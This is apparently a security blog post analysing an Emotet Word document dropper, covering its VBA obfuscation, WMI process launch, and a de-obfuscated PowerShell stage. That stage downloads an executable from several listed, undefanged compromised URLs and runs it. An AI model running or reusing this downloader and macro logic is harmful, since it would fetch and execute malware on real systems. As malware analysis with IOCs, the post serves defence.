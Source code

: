 ```yaml
---
title:  "Anatomy of an Emotet Word Document dropper"
layout: post
---
```


This blog post presents an analysis of the Visual Basic macro contained in a Word doc samples that drops Emotet malware.



## Intro

Sample hash is `a9fe73484674696be756808e93f839be7157cd65995d8de9e67e40bf77c9b229`

[Link](https://www.virustotal.com/gui/file/a9fe73484674696be756808e93f839be7157cd65995d8de9e67e40bf77c9b229/detection) to Virus Total

![VTDetection](/assets/pics/2020-10-31/VT_detection.png "VT detection")

## First step
Instead of using tools like `oledump` or `olevba`, I went straight into analysing the doc inside a Windows 10 virtual machine and Microsoft Office Pro 2016.

Once opened the documents states that it was created with an old version of Office and that because of that macros should be activated ¯\\_(ツ)_/¯

![Open](/assets/pics/2020-10-31/doc_preview.png "Preview")

Upon inspecting macros in VBA Dev tab, we can see that it's heavily obfuscated.

![Obf](/assets/pics/2020-10-31/code_obfuscated.png "Obfuscation")

Note the presence of `Document_Open` function. The macro is executed as soon as you click Allow Content. Once executed, you only see a Powershell window popping up for a fraction of a second.

## De-obfuscation

After spending some time reading through the code in Form `Ykd6l9_zi2__37zjve`, I noticed that most of the code is just garbage code designed to bloat the file, confuse AVs, annoy people, etc...

Especially, the following snippet is repeated all over the file and does nothing, it can be removed.

```vb
   CiXQnDJBd = "pwYjWjkWqMLGO"
awUlmLRhHwj = Mid(CiXQnDJBd, 6, 2)
iATYEK = awUlmLRhHwj
IhfXtbz = "5kzblYaszWGS6C8wP"
CqAXzOw = Mid(IhfXtbz, 7, 2)
qGwwHwGRWwc = CqAXzOw
FjzwaUEc = "lR4v8TckukXnjZzYVazU7N0zURNjRB5 GkTc"
PhdRzEcmb = Mid(FjzwaUEc, 34, 1)
TXGWj = PhdRzEcmb
GOJAhhJQ = "TtpYhM8PRobn1z"
TNiODEzMPti = Mid(GOJAhhJQ, 12, 1)
SuLoW = TNiODEzMPti
wMKCEhZ = "qbGkg4sfPK7aDcv wSI763KTZI9Ocw"
StoqvC = Mid(wMKCEhZ, 4, 2)
MVqFdiDrZl = StoqvC
mRHDhUz = "C86dCiz9L1aqWb TCzEKEPQk4jaWNz4asUJRcSb"
mMdPn = Mid(mRHDhUz, 14, 2)
hjFXDTC = mMdPn
SCEHz = " FwJGjE2jwuVqatGL6fjRm8OlpWpdK O"
NujiUqzEvvd = Mid(SCEHz, 9, 2)
bdpoDPnYFoW = NujiUqzEvvd
wiVhdXmuM = "2jRUXp8LDdPp"
hNdzoTao = Mid(wiVhdXmuM, 10, 1)
YinaPinc = hNdzoTao
tijOoKE = "uiUJHIsW0heVrJqZ2Av"
DFzquY = Mid(tijOoKE, 11, 1)
ZzRGXsD = DFzquY
ADKczCz = "PIwbFGdbpAK"
MrlWLsJVb = Mid(ADKczCz, 7, 1)
PbpdzBhVhEz = MrlWLsJVb
kcavkHimhnl = "wuERbzzKZ4eaz1jrjk5r4vsnmcEL5hZ"
jTnHazsDJNo = Mid(kcavkHimhnl, 11, 1)
FFXqSfthA = jTnHazsDJNo
```

The bad actors use and abuse the fact that if a variable is not declared in VBA, the variable is silently ignored. In the following snippet, `Kq3e6z7gdybg6` resolves to nothing. So `Df9kbnm9eaon3` is equal to 's' (`Q1zrtzyq6us9a` is `90`)
```powershell
Df9kbnm9eaon3 = Kq3e6z7gdybg6 + Chr$(Q1zrtzyq6us9a + (25))
```

Another interesting trick is presented below.
```vb
E_kbz3s_b5rg6n = "2vhaghsghf2vhaghsghfw2vhaghsghfi2vhaghsghfnm2vhaghsghf2vhaghsghfgm2vhaghsghft2vhaghsghf2vhaghsghf" + Df9kbnm9eaon3 + "2vhaghsghf2vhaghsghf:2vhaghsghfw2vhaghsghfin2vhaghsghf2vhaghsghf32vhaghsghf22vhaghsghf_2vhaghsghf" + Ykd6l9_zi2__37zjve.O2a2ey1hmvf + "2vhaghsghfro2vhaghsghf2vhaghsghfce2vhaghsghfs2vhaghsghfs2vhaghsghf"
```

`Ykd6l9_zi2__37zjve` reference the Form, and `O2a2ey1hmvf` reference the `ComboBox` inside the form. The box is set to letter `P`.

![cbox](/assets/pics/2020-10-31/hidden_P.png "Hidden P")

Some elements inside `UserForm1` are useless, and some are used to retrieve parts of obfuscated strings, in order to rebuild then inside the code.

### Result
I am going to pass on describing to long and annoying process of de-obfuscating the code.

```vb
Function Entry()
    On Error Resume Next

    objString = "2vhaghsghf2vhaghsghfw2vhaghsghfi2vhaghsghfnm2vhaghsghf2vhaghsghfgm2vhaghsghft2vhaghsghf2vhaghsghf" + "s" + "2vhaghsghf2vhaghsghf:2vhaghsghfw2vhaghsghfin2vhaghsghf2vhaghsghf32vhaghsghf22vhaghsghf_2vhaghsghf" + "P" + "2vhaghsghfro2vhaghsghf2vhaghsghfce2vhaghsghfs2vhaghsghfs2vhaghsghf"
    objString_decoded = __DecodeObjString(objString)

    Set OLEObject = CreateObject(objString_decoded) ' --> winmgmts:win32_Process

    objString_decoded2 = objString_decoded + "tar" + "tu")
    objString_decoded3 = objString_decoded2 + "P" ' --> winmgmts:win32_ProcesstartuP

    Set Ydsu1vp_xnr8bd = _SetShowWindow(objString_decoded3)
    Jcsxtidm8cuwxfdg6n = Array(useless + "useless" + useless, useless, [OLEObject].Create(__DecodePowershell, useless, useless), useless + "useless")

End Function

Function _SetShowWindow(input)
    On Error Resume Next

    Set _SetShowWindow = CreateObject(input)
    [_SetShowWindow]. _
        showwindow = wdKeyEquals - wdKeyEquals

End Function

Function __DecodeObjString(input)
    On Error Resume Next

    tmpsplit = CleanString(input)
    ret = Split(tmpsplit, "2vhaghsghf")
    __DecodeObjStringtmp = [Join](ret, useless)
    __DecodeObjString = __DecodeObjStringtmp

End Function

Function __DecodePowershell()
    On Error Resume Next

    Set encodedPsPayload = CurrentDoc.InlineShapes.Item(1)
    __DecodePowershell = __DecodeObjString(encodedPsPayload.AlternativeText) ' Inside AltText when right click -> Picture

End Function
```

The strings are de-obfuscated by splitting them following the same pattern.
```vb
ret = Split(tmpsplit, "2vhaghsghf")
```

The final `powershell` payload is hidden inside the pictures presented to the user when opening the document, and is de-obfuscated by splitting the string with `2vhaghsghf`
![Payload](/assets/pics/2020-10-31/hidden_payload_AltText.png "Powershell Payload")


The final macro payload can be reduced to the following snippet.
```vb
Set OLEObject = CreateObject("winmgmts:win32_Process")
[OLEObject].Create(__DecodePowershell, null, null)
```

### _SetShowWindow
This function is supposed to set `_SetShowWindow` option of `winmgmts:win32_ProcesstartuP` to `0`, but it doesn't seem to work.

## Powershell
The `powershell` payload is `base64` encoded. Interestingly, before encoding to `base64` a `null` (\x00) char is placed between each characters of the powershell source code. The `base64` decode function of powershell, `[Text.Encoding]::Utf8.GetString([Convert]::FromBase64String($BASE64))` treats null char as **space**. So the actual decoded payload is a valid powershell source code.

```powershell
> [Text.Encoding]::Utf8.GetString([Convert]::FromBase64String("QQBB"))
> A B
```

```python
>>> decodedBytes = base64.urlsafe_b64decode("QQBB")
>>> str(decodedBytes, "utf-8")
'A\x00A'
```

Strings and function calls are obfuscated using different techniques. Powershell is not really case sensitive for function calls.

```powershell
[Net.ServicePointManager]::"sE`c`UrI`Ty`prot`ocOL" =(('tl'+'s')+('1'+'2,t')+'l'+('s1'+'1,tl')+s');

$Oht57tr=.('new-ob'+'j'+'et')nET.weBclIEnt;
```

### Decoded powershell payload

Decoded, de-obfuscated and cleaned.
```powershell
.('new-item')$eNv:uSErpROFile\PfnoyhG\w2lwD2_\ -itemtype DIREcTORy;

[Net.ServicePointManager]::"sEcUrITyprotocOL"='tls12,tls11,tls');

$Ra85g8d=$env:userprofile+(('BFPfnoyhglBFW2lwd2_lBF')."repLace"(([CHaR]108+[CHaR]66+[CHaR]70,[StrIng][CHaR]92))+'Pcy7xg6'+('.exe'));

$Oht57tr=.('new-objet')nET.weBclIEnt;

$U27o44j=(('https://blueyellowshop.com/wp-includes/mihae8A/*http://kingsalmanqurn.com/wp-content/wuPyeI/*https://dagranitegiare.com/wp-admin/Z21r6R/*http://acontarborreguitos.com/acontarborreguitos/I/*http://atenaclinicaesegurancadotrabalho.com/cgi-bin/NlMH/*http://digitalbazar.com/wp-admin/RVEzrK/*https://byc-center.com/wp-admin/Z4r/'))."sPlit"([char]42);

foreach($Hz7jbau in $U27o44j)
{
    try
        {
        $Oht57tr."DownLOA`DFILE"($Hz7jbau,$Ra85g8d);
        $X2iepix=('Fvoxr2g'));
        If((.('Get-Item')$Ra85g8d)."LeNGTh" -ge 20136)
            { 
                & ('Invoke-Item')($Ra85g8d);
                break;
            }
        } 
    catch{}
}

```

## IOCs

`blueyellowshop[.]com`   
`kingsalmanqurn[.]com`   
`dagranitegiare[.]com`   
`acontarborreguitos[.]com`   
`atenaclinicaesegurancadotrabalho[.]com`   
`digitalbazar[.]com`   
`byc-center[.]com`   













